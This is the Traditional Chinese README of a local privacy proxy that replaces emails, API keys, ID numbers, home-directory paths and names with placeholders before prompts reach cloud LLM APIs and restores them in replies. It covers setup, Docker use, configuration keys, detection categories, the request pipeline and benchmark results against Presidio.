





# redaction-proxy

[English](README.md) · **繁體中文** · [简体中文](README.zh-CN.md) · [日本語](README.ja.md)

在你自己電腦上執行的小型代理：提示送往雲端 LLM 之前，先把 email、API 金鑰、身分證字號等個資換成佔位符；回覆回來時，再把原值放回去。



適用任何 OpenAI 或 Anthropic 相容的用戶端，串流回覆也一樣，不需要本機模型。它**減少**個資與機密外洩，但**不會**讓對話變成私密的。

**該用哪一個？**

| | 這個代理 | [dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) |
| --- | --- | --- |
| 需要本機模型 | 不需要 | 需要（由它回答私密的輪次） |
| 什麼會送到雲端 | 每個請求，遮罩後送出 | 只有判為公開的輪次，遮罩後送出；判為私密的輪次留在你的電腦 |
| 適用 | 任何 OpenAI 或 Anthropic 相容的用戶端 | 只限 DeepSeek Harness（dsh） |

跑得動本機模型、想要更強的隱私，請先安裝分流器；它透過 dsh-addons 的 redaction 套件使用這個代理的遮罩核心，安裝時一起裝上。跑不動的話，單用這個代理也能多一層隱私保護。

> **狀態：** 0.3.0，尚未發布到 npm。已對真實服務驗證：DeepSeek Chat Completions（2026-10-08），以及透過 Claude Code 與 dsh 的 Anthropic Messages（2026-10-14），見下方。OpenAI API 與 Codex CLI 尚未驗證。

## 介紹影片

[](docs/media/intro.mp4)

影片重播的是 `pnpm demo` 與另一個經過代理的請求的真實輸出（字幕為英文）。[MP4 版本](docs/media/intro.mp4)。

## 30 秒快速開始

需要 Node 22.19 以上（或 24 以上）與 pnpm。在本儲存庫 clone 下來的目錄裡執行：

```sh
pnpm install
pnpm demo          # 不需金鑰：假上游 + 代理 + 一次串流請求
pnpm build
node lib/cli.js    # 啟動代理，位址 http://127.0.0.1:8787
```

`pnpm demo` 的輸出：

```text
client sends:      請寄信給 lin.fictional@example.test，身分證 A123456789，檔案在 /Users/fictional-user/notes.md
[proxy log] POST /v1/chat/completions -> 200 masked 3 (EMAIL 1, TWID 1, PATH 1) restored 3 unknown 0 8ms
upstream received: 請寄信給 ⟦EMAIL_1⟧，身分證 ⟦TWID_1⟧，檔案在 ⟦PATH_1⟧/notes.md
client receives:   I will email lin.fictional@example.test about /Users/fictional-user/notes.md (ID A123456789).
```

### Docker

2026-10-13 在 Apple Silicon 上以 Docker Desktop 29.6.2（linux/arm64）對本機假上游驗證：映像可以建置（347 MB；加 `--build-arg NAME_MODEL=1` 為 864 MB），以非 root 使用者 `node` 執行；沒設 `REDACTION_PROXY_AUTH_TOKEN` 時拒絕啟動，沒帶權杖的請求回 401；email、身分證字號與家目錄路徑在 OpenAI Chat Completions JSON、串流與 Anthropic Messages 中都以遮罩後的形式送到上游，並在回覆中還原；允許來源的 CORS 預檢得到 204 且不轉送，其他來源得到 403；下方的設定檔掛載可用。未測試：以真模型執行人名模型版映像，以及 linux/amd64。

```sh
docker build -t redaction-proxy .
export REDACTION_PROXY_AUTH_TOKEN=$(openssl rand -hex 32)
docker run --rm -p 127.0.0.1:8787:8787 -e REDACTION_PROXY_AUTH_TOKEN redaction-proxy
```

> **一定要用 `-p 127.0.0.1:8787:8787`，不要用 `-p 8787:8787`。** 映像在容器內綁定 `0.0.0.0`，所以沒設 `REDACTION_PROXY_AUTH_TOKEN` 就拒絕啟動，沒帶權杖的請求一律回 401；唯一例外是允許來源的瀏覽器 CORS 預檢，由代理自己回應，不轉送任何內容（其他來源的網頁得到 403）。權杖以明文 HTTP 傳送；`127.0.0.1:` 這個前綴讓它，以及你的工具經由代理送出的 API 金鑰，不暴露在你的網路上。

用戶端在 `x-redaction-proxy-token` 標頭帶上權杖：Claude Code 用 `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: $REDACTION_PROXY_AUTH_TOKEN"`；OpenAI 與 Anthropic SDK 用預設標頭選項（Python 的 `default_headers`、TypeScript 的 `defaultHeaders`）。

設定檔 `redaction.toml`（或 `.json`）：加上 `-v "$PWD/redaction.toml:/redaction.toml:ro"`，並在最後加 `--config /redaction.toml`。人名模型：以 `--build-arg NAME_MODEL=1` 建置，並加上 `-v ~/models/nym:/models:ro -e REDACTION_PROXY_NAME_MODEL_DIR=/models`。

上游是非本機的明文 `http://`（例如經由 `host.docker.internal` 連到的本機模型伺服器）時，另加 `-e REDACTION_PROXY_ALLOW_INSECURE_UPSTREAM=1`。`maskLocalUsername` 略過容器的使用者 `node`，所以在映像中不遮任何字。

### npx（第一次發布到 npm 之後）

目前還沒上 npm，在那之前請照[快速開始](#30-秒快速開始)從 clone 下來的目錄執行。2026-10-14 以本機 tarball 驗證：`npm pack` 對 0.3.0 產生 199.9 kB、60 個檔案的套件，`npx --yes --package=./redaction-proxy-<version>.tgz redaction-proxy --demo` 印出示範輸出，不加 `--demo` 時代理在 127.0.0.1:8787 啟動。發布之後：

```sh
npx redaction-proxy --demo
npx redaction-proxy           # 啟動代理，位址 http://127.0.0.1:8787（本機不需要權杖）
```

代理沒有健康檢查端點：GET 請求會轉送到上游。

## 讓你的工具走代理

> **真實服務：已驗證 DeepSeek 與 Anthropic，OpenAI 尚未驗證。** 2026-10-08 用[真實服務驗證工具](e2e/real/README.md)對 DeepSeek 跑了 4 個情境（Chat Completions；非串流 JSON 與串流；純文字與強制工具呼叫），全部通過：上游只看到佔位符，每次 5 個值都還原。2026-10-13 有兩個真實用戶端經由代理使用 Anthropic Messages（Claude Haiku 5.5），2026-10-14 兩者都在最終的 0.3.0 建置（commit `25881e0`）上再次通過：
>
> - **Claude Code 2.1.287**，以訂閱登入，設定 `ANTHROPIC_BASE_URL=http://127.0.0.1:8787`：串流文字與工具（Bash、Read）。偵測到的值上游只看到佔位符，回覆已還原，工具參數依 `toolRestore` 還原 `PATH`、`TERM`、`PROJECT`，其他類別保留為佔位符。0.3.0 之前，工具參數中保留的佔位符在後續回合會被重新編號，模型把同一個工具重試了 7 次；0.3.0 中工具只執行 1 次（2026-10-13 為 3 個請求；2026-10-14 模型先寫了一句話再呼叫 Bash 與 Read，共 2 個請求，佔位符編號不變）。Claude Code 也會送出作業系統的使用者名稱（在 `safeguards…user_identity` 與專案目錄名稱中），0.3.0 預設會遮掉（`maskLocalUsername`）。
> - **dsh**（DeepSeek Harness，經由它的 pi-ai Anthropic 路徑）：文字與工具。0.3.0 之前，保留的佔位符讓 Anthropic 以 HTTP 400 拒絕重送的簽章 thinking 區塊；已驗證 0.3.0 修正了這個問題。
>
> 未驗證：OpenAI API（沒有金鑰）、Codex CLI（未登入）、直接使用 Anthropic SDK（只經由 dsh 的 pi-ai 使用過）、以本儲存庫的 `e2e:real` 驗證工具對 Anthropic 執行（未執行）。

工具照常送出自己的 API 金鑰；代理原樣轉送，從不儲存。

| 工具 | 設定 | 狀態 |
| --- | --- | --- |
| Claude Code | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787 claude` | 2026-10-14 已驗證（訂閱登入；文字、串流、工具） |
| Anthropic SDK | `ANTHROPIC_BASE_URL=http://127.0.0.1:8787`（不加 `/v1`） | 經由 dsh（pi-ai）驗證，未直接驗證 |
| OpenAI SDK 與多數相容工具 | `OPENAI_BASE_URL=http://127.0.0.1:8787/v1`（要加 `/v1`） | 未測試 |
| DeepSeek | 以 `REDACTION_PROXY_OPENAI_UPSTREAM=https://api.deepseek.com node lib/cli.js` 啟動代理，再用 `OPENAI_BASE_URL=http://127.0.0.1:8787/v1` 搭配你的 DeepSeek 金鑰。這會取代 OpenAI 上游。 | 已用真實服務驗證工具驗證（僅 API） |
| Cursor | 不支援：Cursor 的自訂 base URL 請求從 Cursor 自己的伺服器發出，連不到你的 `127.0.0.1`。 | — |

<details><summary>curl 範例與設定檔</summary>

```sh
curl http://127.0.0.1:8787/v1/chat/completions \
  -H "authorization: Bearer $OPENAI_API_KEY" \
  -H "content-type: application/json" \
  -d '{"model":"gpt-4o-mini","messages":[{"role":"user","content":"寄信給 lin@example.test"}]}'
```

用 `node lib/cli.js --config redaction.toml` 指定 TOML 或 JSON 設定檔（`.toml` 讀成 TOML；`.json` 或沒有副檔名（例如 `/dev/stdin`）讀成 JSON；其他副檔名會讓啟動失敗；兩者的鍵相同），環境變數可覆寫。每個選項與預設值見 [config.example.toml](config.example.toml)。上游 API 金鑰永遠不放在檔案裡。不認得的鍵或型別不對的值（以 `"true"` 代替 `true`）會讓啟動失敗；錯誤訊息只在鍵或值是簡短、像名稱的字（英文字母、`_` 或 `-`，最多 24 個字元、兩個數字，不以 `sk-`、`ghp_` 等已知權杖前綴開頭）時才引用它；其他內容，包括權杖形狀的文字，都印成 `<key>` 之類的佔位文字。

| 鍵 | 預設 | 說明 |
| --- | --- | --- |
| `port` | `8787` | TCP 埠號。 |
| `host` | `127.0.0.1` | 綁定位址。非本機位址（例如 Docker 中的 `0.0.0.0`）必須設定 `authToken`。 |
| `authToken` | 無 | 用戶端必須在 `x-redaction-proxy-token` 標頭送出的權杖，至少 16 個字元（`openssl rand -hex 32`）。綁定本機時可不設。Claude Code 用 `ANTHROPIC_CUSTOM_HEADERS="x-redaction-proxy-token: <權杖>"` 送出；SDK 用其預設標頭選項。 |
| `allowedOrigins` | 無 | 除了本機 `http(s)` 網頁之外，允許的瀏覽器或 Electron 來源，例如 `app://my-client`。不接受 `null`（`file://` 網頁）。 |
| `openaiUpstream` | `https://api.openai.com` | Chat Completions 與 Responses 的上游。 |
| `anthropicUpstream` | `https://api.anthropic.com` | Anthropic Messages 的上游。 |
| `allowInsecureUpstream` | `false` | 允許以明文 `http://` 連到非本機的上游；API 金鑰會以明文傳送。 |
| `redaction.terms` | 無 | 要遮的人名等字詞，不分大小寫；首尾是英文字母或數字的字詞只比對完整的詞（`Lin` 不遮 `Linux`），中日韓字詞在文字中照常比對。字詞若也是工具或參與者 `name` 中的完整單字（`nimbus_deploy`），提到它的請求預設以 422 拒絕，因為 `name` 欄位不遮罩。 |
| `redaction.projectNames` | 無 | 要遮的專案代號。 |
| `redaction.allowlist` | `git@github.com`、`noreply@github.com` | 永遠不遮的值。 |
| `redaction.rules` | `card`、`entropy` 以外全部 | 要啟用的內建規則。以 `card-strict`、`entropy-strict` 取代 `card`、`entropy`：不會把一串數字切成兩半，也放過以檔名為鍵的雜湊。 |
| `nameModel` | 無 | 開啟[實驗性的人名模型](#選用的人名模型實驗性)。預設失敗時放行：模型在某個請求上失敗時，該請求只以規則遮罩送出，日誌那一行註明 `nameModel failed`；除非 `nameModel.required` 設為 `true`（此時回 503，不送出）。 |
| `screen` | `replace` | 遇到控制字元時改成可見字元（`replace`）或拒絕請求（`refuse`）。 |
| `debugMasked` | `false` | 在日誌中記錄遮罩後的請求本文，代理不遮的欄位（`metadata`、圖片 URL、base64 資料）照原樣記錄。只供除錯。 |
| `sendWhenMaskFails` | `false` | 遮罩失敗時仍送出請求，不以 422 拒絕：遮罩後仍有偵測到的值時送出部分遮罩的本文，無法遮罩時送出未遮罩的本文。這會把偵測到的值送給服務商。回應會帶 `x-redaction-proxy-mask-failed: 1` 標頭，日誌列出欄位與類別或錯誤代碼，不含值。環境變數：`REDACTION_PROXY_SEND_WHEN_MASK_FAILS`（`1` 或 `0`）。 |
| `knownOriginalsTtlSeconds` | `86400`（24 小時） | 偵測到的值為用戶端之後的請求保留的秒數，從最後一次偵測起算；`0` 表示什麼都不記。環境變數：`REDACTION_PROXY_KNOWN_ORIGINALS_TTL_SECONDS`。 |
| `maskLocalUsername` | `true` | 把代理執行時的帳號名稱（不同時也包括家目錄的最後一段）當成 `terms` 的一項遮罩（`⟦TERM_n⟧`），所以單獨出現的使用者名稱與 `-Users-<名稱>-project` 這類專案目錄名稱不會送出。少於 3 個字元的名稱與通用帳號名稱（`root`、`node`、`runner`、`user`、`admin` 等）略過，所以 Docker 映像檔的 `node` 使用者不遮任何字。與列出的字詞不同，它在任何地方都不讓請求被拒：名稱同時是 JSON 鍵、模型 id 或工具名稱的一部分時（`max_tokens` 中的 `max`、`claude`），那裡照原樣送出；黏著英文字母或數字的出現處（`<名稱>2024`）不符合完整單字的比對，也照原樣送出。`redaction.terms` 列出的名稱（不分 ASCII 大小寫）仍是列出的字詞，照常會讓請求被拒。環境變數：`REDACTION_PROXY_MASK_LOCAL_USERNAME`（`1` 或 `0`）。 |
| `toolRestore.categories` | `PATH`、`TERM`、`PROJECT` | 還原進工具呼叫參數的佔位符類別；其他類別以佔位符原樣交給工具，工具寫到磁碟上的也是佔位符。`"*"` 還原所有類別。環境變數：`REDACTION_PROXY_TOOL_RESTORE_CATEGORIES`（逗號分隔）。 |
| `toolRestore.tools` | 無 | 依工具名稱（去掉前後空白、不分大小寫）指定還原進該工具參數的類別，取代該工具的 `categories`，例如 `{"git_commit": ["PATH", "EMAIL"]}`；`"*"` 還原所有類別。 |

```json
{
  "redaction": {
    "terms": ["林小明", "Denise Whitlock"],
    "projectNames": ["Nimbus"]
  }
}
```

環境變數與所有選項見[技術細節第 12 節](docs/DETAILS.md#12-完整設定)。日誌每個請求一行，只有計數與耗時；工具呼叫參數中的每個佔位符另記一行（還原或保留、id、工具、參數路徑）。除非開啟 `debugMasked`，絕不含原始值或標頭。

沒送 API 金鑰的用戶端，代理會從兩個只能用環境變數設定的值補上：`REDACTION_PROXY_OPENAI_API_KEY`（OpenAI 型用戶端沒送 `authorization` 時以 `Authorization: Bearer` 送出）與 `REDACTION_PROXY_ANTHROPIC_API_KEY`（Anthropic 型用戶端沒送 `x-api-key` 也沒送 `authorization` 時以 `x-api-key` 送出）。它們只存在記憶體中；所有靠它們的用戶端共用同一個記憶範圍。

</details>

## 會遮哪些東西



| 類別 | 範例 | 雲端看到 |
| --- | --- | --- |
| Email | `lin@example.test` | `⟦EMAIL_1⟧` |
| API 金鑰與憑證 | `sk-…`、`ghp_…`、`AKIA…`、`glpat-…`、`sk_live_…`、JWT、`Bearer …`、`password=…`、`the token is …` | `⟦KEY_1⟧` |
| 家目錄路徑（只遮前綴） | `/Users/lin/notes.md` | `⟦PATH_1⟧/notes.md` |
| 私有 IP、內部主機名 | `192.168.1.20`、`100.64.1.2`、`fd12::1`、`nas.local`、`git.corp` | `⟦IP_1⟧`、`⟦HOST_1⟧` |
| 各國國內格式或電話字眼後的電話號碼 | `(415) 555-0132`、`020 7946 0958`、`Telefon: 030 12345678` | `⟦PHONE_1⟧` |
| 信用卡號（Luhn 驗證） | 13–19 碼 | `⟦CARD_1⟧` |
| 台灣身分證、手機、統一編號，以及關鍵詞後的護照與健保卡號 | `A123456789`、`0912-345-678`、`0912.345.678`、`護照 312345678` | `⟦TWID_1⟧`、`⟦PHONE_1⟧` |
| 另外 10 個國家與地區的證號、IBAN | 美國 SSN、英國 NINO、中國身分證、日本個人番號等 | `⟦NATID_1⟧`、`⟦IBAN_1⟧` |
| 長隨機字串 | 32 字元以上的 hex 或 base64 | `⟦ENTROPY_1⟧` |
| 你列出的字詞 | `terms`、`projectNames` | `⟦TERM_1⟧`、`⟦PROJECT_1⟧` |

同一個值在整個請求中用同一個佔位符。請求中偵測到的值遮罩後若仍在請求中，代理會拒絕送出（422），不冒險外洩；開啟 `sendWhenMaskFails` 時例外。用戶端請求中偵測到、至少 6 個 ASCII 字元或 2 個其他字元長的值，代理也依用戶端憑證記在記憶體中，從最後一次偵測起保留 24 小時（`knownOriginalsTtlSeconds`），之後的請求即使歷史中已沒有偵測它的上下文（`password: …`），它單獨出現的地方也照樣遮罩（記住的憑證類值不分 ASCII 大小寫）。這份記憶只是盡力而為的額外遮罩，從不拒絕請求：記住的值黏著其他字元出現（`xTr0ub4dor&3xy`）、換了寫法，或在代理不改寫的欄位中時，照原樣送出。在你自己的訊息或系統提示中找到的值與在工具輸出中找到的值分開存放，所以大量的工具結果擠不掉寫在那裡的密碼。這份記憶有上限，所以連得到代理的本機程式可以送大量請求把值擠掉；代理預設只聽本機位址，其他位址必須設權杖。全由 API 欄位用字組成的 snake_case 值（`web_server`、`data_store`）只在綁定它的請求中遮，所以之後的請求仍能寫出這個欄位名。全形數字、`＠`、零寬字元（U+200B–U+200D、U+2060、U+FEFF、軟連字號）會先折疊再比對；值中間的其他隱形字元（雙向標記、變體選擇符）不折疊。完整規則見[技術細節第 3 節](docs/DETAILS.md#3-偵測規則)。

## 運作方式

每個送往遮罩路由的 POST 都走同樣的步驟；GET 不遮罩，直接轉送。代理不保存各段對話的佔位符對照表：每次請求都從完整歷史重新編號，所以只往後增加的對話中，每一輪遮罩後的前綴不變，雲端的提示快取照常生效；例外是較後的輪次（或同一憑證的另一個請求）首次偵測到一個先前已出現過的值，此時先前的位置也會被遮罩，前綴因此改變一次（[原因與會打破的情況](docs/DETAILS.md#4-遮罩順序與提示快取)）。有兩樣東西會依用戶端憑證留在記憶體中，最多保留到重啟：Responses API 回應的原始輸入（給以 `previous_response_id` 接續、不重送歷史的請求用），以及下表「記憶」列的值。



| 步驟 | 決定什麼 | 出錯時 |
| --- | --- | --- |
| 入口 | 網頁發出的請求被拒，除非來源是本機的 `http(s)` 頁面或列在 `allowedOrigins`；沒設 `authToken` 時，送往其他主機名稱的請求也被拒。另外要求已知的路由，以及設了 `authToken` 時的權杖。 | 403、401、404 或 413，不轉送。 |
| 偵測 | 格式規則（email、金鑰、證號、電話、卡號、IP、主機名稱、家目錄路徑、長隨機字串）、關鍵詞上下文（`password: …`）、你列的詞、選用的人名模型。 | 沒偵測到的值照原樣送出。 |
| 遮罩 | 同一個值在整個請求中用同一個佔位符。 | 本文不是 JSON 或巢狀太深時回 400。接續請求的 `previous_response_id` 代理沒有時回 422。 |
| 外洩檢查 | 這個請求偵測到的值，遮罩後若還在請求中，就擋下整個請求。列舉欄位中像列舉值的值不檢查；以空格分詞的文字中，人名與你列的詞只算完整單字；中日韓文字則在任何位置都算。 | 422，請求不送出。這是預設行為；開啟 `sendWhenMaskFails` 時照樣送出，並在回應上標記。 |
| 記憶 | 同一個用戶端憑證先前請求偵測到的值，單獨出現時也遮，預設保留 24 小時。盡力而為，從不拒絕請求。 | 記住的值黏在其他文字中時照原樣送出。 |
| 還原 | 回覆文字中的佔位符還原，Anthropic 簽章過的 `thinking` 區塊除外；URL 內的保留；工具呼叫參數只還原 `toolRestore` 允許的類別。模型自己編出來的佔位符照原樣保留。 | 工具可能拿到佔位符而不是它需要的值；為那個工具允許該類別即可。URL 內的佔位符不論類別都保留。 |

代理原樣轉送你的 API 金鑰，從不儲存；它的 SHA-256 雜湊用來區分各用戶端的記憶；靠代理備援金鑰的用戶端共用一個範圍。各步驟的細節：[技術細節第 1 節](docs/DETAILS.md#1-架構)、[第 4 節：編號與提示快取](docs/DETAILS.md#4-遮罩順序與提示快取)、[第 6 節：拒絕](docs/DETAILS.md#6-拒絕與錯誤狀態碼)、[第 7 節：串流還原](docs/DETAILS.md#7-串流還原)、[第 8 節：記憶](docs/DETAILS.md#已知原始值)、[第 9 節：篩檢](docs/DETAILS.md#9-控制字元篩檢)。

## 選用的人名模型（實驗性）

預設關閉。光靠規則找不到人名。開啟一個小型本機模型（[`Wismut/nym-pii-multilingual-small`](https://huggingface.co/Wismut/nym-pii-multilingual-small)，MIT 授權，108 MB）後，它會在**你**寫的文字中另外遮罩人名、公司、地名與地址（`⟦NAME_1⟧`、`⟦ORG_1⟧`、`⟦LOC_1⟧`、`⟦ADDR_1⟧`）。

```sh
pnpm add -D onnxruntime-node@1.30.0 tokenizers@0.23.2   # 執行環境，約 350 MB
node scripts/fetch-name-model.mjs ~/models/nym        # 約 125 MB，會檢查 sha256
REDACTION_PROXY_NAME_MODEL_DIR=$HOME/models/nym node lib/cli.js
```

它會漏掉一些人名，也會把一些不是人名的字遮罩。合成資料上的實測：

| | 結果 |
| --- | --- |
| 一般文字中的人名：英文、日文 | 召回率 1.00、1.00 |
| 一般文字中的人名：繁體中文 | 召回率 **0.87**（大約每 8 個漏 1 個） |
| 貼上的程式碼、日誌、JSON 中的人名 | 召回率 0.10–0.30：程式碼不讀，這類人名請列進 `terms` |
| 精確率 | 0.94 |
| 代價 | 記憶體約 +420 MB；每 2 KB 中文一般文字 p95 約 130 ms |

它讀哪些文字、全部數字與選項，見[技術細節第 16 節](docs/DETAILS.md#16-人名模型實驗性)。

## 實測結果

<!-- RESULTS:START -->
**held-out set v2 (written blind, run once)，保留集第 2 版（盲寫、只跑一次）。** 7 種語言（英文、繁中、簡中、日文、韓文、德文、法文）共 1,617 筆合成提示、10,268 個敏感值、2,997 個困難反例。撰寫者沒看過規則與評測程式；約 60% 的值是非標準寫法（用點分隔的卡號、小寫 IBAN、`name at example dot com`、帶分機的電話）。以 SHA-256 凍結後只在 2026-10-07 評分一次，使用代理預設的偵測器 `rules-6+intl-2+ext-1`；兩版保留集與其雜湊在 [bench/heldout/](bench/heldout/)。其中所有形似憑證的字串（`ghp_`、`AKIA`、`npm_`、PEM 區塊）都是合成的、無法使用，機密掃描工具（secret scanner）標出它們是預期中的事。



| 保留集第 2 版，英文提示（1,527 個值） | 核心預設規則 | 代理預設規則 | + 人名模型（實驗性） | Presidio，cutoff 0 | Presidio，cutoff 0.4 |
| --- | --- | --- | --- | --- | --- |
| 完全遮蔽（10 類 macro 平均） | 25.9% | 39.5% | **44.8%** | 40.4% | 37.8% |
| 完全沒遮（macro 平均） | 64.0% | 49.9% | 35.6% | **29.3%** | 35.0% |
| 與敏感值重疊的遮罩範圍 | 94.3% | **95.8%** | 94.8% | 64.9% | 68.0% |
| 每筆提示的中位數耗時 | 0.10 ms | 0.12 ms | 10.8 ms | 11.4 ms | 11.2 ms |
| 完全遮蔽，全部 7 種語言 | 27.3% | 37.9% | 44.4% | 34.5%* | 32.8%* |

\* Presidio 把每筆提示都當英文分析，全部語言的結果僅供參考。

標準與非標準寫法，英文，完全遮蔽（n 為值的數量）：

| 類別 | 代理預設，標準 | 代理預設，非標準 | Presidio 0.4，標準 | Presidio 0.4，非標準 |
| --- | --- | --- | --- | --- |
| Email | 100%（n=107） | 61.5%（n=148） | 57.9% | 35.1% |
| 電話 | 70.4%（n=54） | 41.1%（n=107） | 83.3% | 85.0% |
| 身分證號 | 89.5%（n=19） | 30.4%（n=23） | 68.4% | 47.8% |
| 信用卡 | 94.7%（n=19） | 0.0%（n=40） | 84.2% | 15.0% |
| IBAN | 100%（n=15） | 0.0%（n=46） | 100% | 69.6% |
| 金鑰與憑證 | 95.9%（n=49） | 80.7%（n=140） | 12.2% | 5.7% |
| 主機 | 100%（n=93） | 43.6%（n=149） | 47.3% | 12.1% |
| 人名（加人名模型） | 60.4%（n=164） | 39.1%（n=192） | 42.7% | 44.3% |

100% 的格子都是標準寫法，正是規則針對的寫法，而且樣本小：n=15 全對只代表 15 個裡沒有漏掉任何一個。

弱點（英文、代理預設）：

- **非標準寫法**的 IBAN、卡號、身分證號大多抓不到（完全遮蔽 0%、0%、30%）；38% 的非標準 email（`name at example dot com`、國際化網域、加空格）完全沒遮。
- **路徑**大多只遮罩一部分（88%）：使用者名稱會被遮，路徑其餘部分保留。
- **地址。** 沒有地址規則：完全遮蔽 0%（人名模型遮罩一部分的有 77%）。
- **人名**要靠人名模型，完全遮蔽 49%（全部語言 52%）。
- **電話**完全遮蔽 51%（Presidio 85%）；帶分機（`x204`）的電話沒有一個被完全遮蔽。

還原，自我檢查而非成績：只用規則時，1,617 筆提示遮罩後全部能逐位元組還原；開啟人名模型時是 1,617 筆中的 1,587 筆（30 筆不完全一致）。

